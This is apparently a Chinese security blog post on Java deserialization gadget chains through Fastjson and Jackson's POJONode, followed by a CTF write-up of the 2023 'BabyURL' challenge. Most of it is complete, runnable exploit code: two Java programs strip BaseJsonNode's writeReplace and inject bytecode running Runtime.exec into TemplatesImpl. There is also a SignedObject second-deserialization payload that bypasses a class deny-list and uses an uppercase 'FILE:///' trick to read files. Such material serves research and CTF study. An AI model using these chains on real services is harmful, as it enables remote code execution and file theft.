


# Fastjson回眸

在Fastjson中，`JSONArray`和`JSONObject`都实现了`Serializable`接口，这两个类的`toString`方法都能触发`toJSONString`的调用，要把一个JSON对象转字符串，必然涉及到对象属性的获取，会调用到对象的getter方法

从1.2.49开始，`JSONArray`和`JSONObject`都实现了自己的`readObject`方法，自定义了一个`SecureObjectInputStream`并重写了`resolveClass`方法，里面调用了`checkAutoType`来对反序列化的类进行黑白名单检查。需要通过原生反序列化的引用机制来绕过。

利用链：toString(e.g. BadAttributeValueExpException#readObject) -> toJSONString -> evil getter(e.g. TemplatesImpl#getOutputProperties)

# Jackson审视

Jackson的使用和Fastjson类似

| FastJson                 | Jackson                       |
| ------------------------ | ----------------------------- |
| JSONObject               | ObjectNode                    |
| JSONArray                | ArrayNode                     |
| JSON.parseObject静态调用 | ObjectMapper.readTree对象调用 |

继承关系：`POJONode`->`ValueNode`->`BaseJsonNode` -> `JsonNode`

利用点在`BaseJsonNode#toString`，跟到后面 ，对于自定义的类使用`BeanSerializer`进行反序列化，调用`serializeFields`对属性进行还原时,`BeanPropertyWriter`调用`getter`

还是用`TemplatesImpl#getOutputProperties`去打，但是这里直接反序列化会出现问题

> Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])

查看报错StackTrace



`invokeWriteReplace`判断`writeReplaceMethod`是否存在，存在则调用



简单粗暴，把这个类的`writeReplaceMethod`删掉即可

完整代码

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        // 去除BaseJsonNode的writeReplace方法
        CtClass ctClass =ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(bd);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
}
```

稳定版本：https://xz.aliyun.com/t/12846

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

public class JSON {
    public static void main(String[] args) throws Exception {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
        POJONode node = new POJONode(makeTemplatesImplAopProxy("calc"));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        serialize(val);
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void serialize(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }

    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }

    public static Object makeTemplatesImpl(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "test");
        return templates;
    }
}
```

# 巅峰极客2023 BabyURL

附件👉[Click Me](../backup/geek_BabyURL.zip)

主要的两个路由

一个用于反序列化、一个用于读`/tmp/file`

```java
@GetMapping({"/hack"})
@ResponseBody
public String hack(@RequestParam String payload) {
    byte[] bytes = Base64.getDecoder().decode(payload.getBytes(StandardCharsets.UTF_8));
    ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);

    try {
        ObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
        URLHelper o = (URLHelper)ois.readObject();
        System.out.println(o);
        System.out.println(o.url);
        return "ok!";
    } catch (Exception var6) {
        var6.printStackTrace();
        return var6.toString();
    }
}

@RequestMapping({"/file"})
@ResponseBody
public String file() throws IOException {
    File file = new File("/tmp/file");
    if (!file.exists()) {
        file.createNewFile();
    }

    FileInputStream fis = new FileInputStream(file);
    byte[] bytes = new byte[1024];
    fis.read(bytes);
    return new String(bytes);
}
```

`MyObjectInputStream`重写了`resolveClass`

```java
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    String className = desc.getName();
    String[] denyClasses = new String[]{"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"};
    String[] var4 = denyClasses;
    int var5 = denyClasses.length;

    for(int var6 = 0; var6 < var5; ++var6) {
        String denyClass = var4[var6];
        if (className.startsWith(denyClass)) {
            throw new InvalidClassException("Unauthorized deserialization attempt", className);
        }
    }

    return super.resolveClass(desc);
}
```

把`URLVisiter`、`URLHelper`禁了，二次反序列化绕过

`URLHelper`的`readObject`调用了`URLVisiter#visitUrl`，获取的结果写入`/tmp/file`

```java
private void readObject(ObjectInputStream in) throws Exception {
    in.defaultReadObject();
    if (this.visiter != null) {
        String result = this.visiter.visitUrl(this.url);
        File file = new File("/tmp/file");
        if (!file.exists()) {
            file.createNewFile();
        }

        FileOutputStream fos = new FileOutputStream(file);
        fos.write(result.getBytes());
        fos.close();
    }
}
```

目的就很明确了，利用`URLVisiter`去读flag，再写入`/tmp/file`

`visitUrl`限制了URL不能以`file`开头，用大写绕过`FILE:///`

```java
if (myurl.startsWith("file")) {
    return "file protocol is not allowed";
}
```

没错，file协议可以列目录

获取flag的名字F14gIsHereY0UGOTIT

```java
URLHelper urlHelper = new URLHelper(" file:///F14gIsHereY0UGOTIT");
URLVisiter urlVisiter = new URLVisiter();
setValue(urlHelper, "visiter", urlVisiter);

KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject signedObject = new SignedObject(urlHelper, privateKey, signingEngine);

POJONode pojo = new POJONode(signedObject);
BadAttributeValueExpException bd = new BadAttributeValueExpException(1);
setValue(bd, "val", pojo);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(bd);
oos.close();
```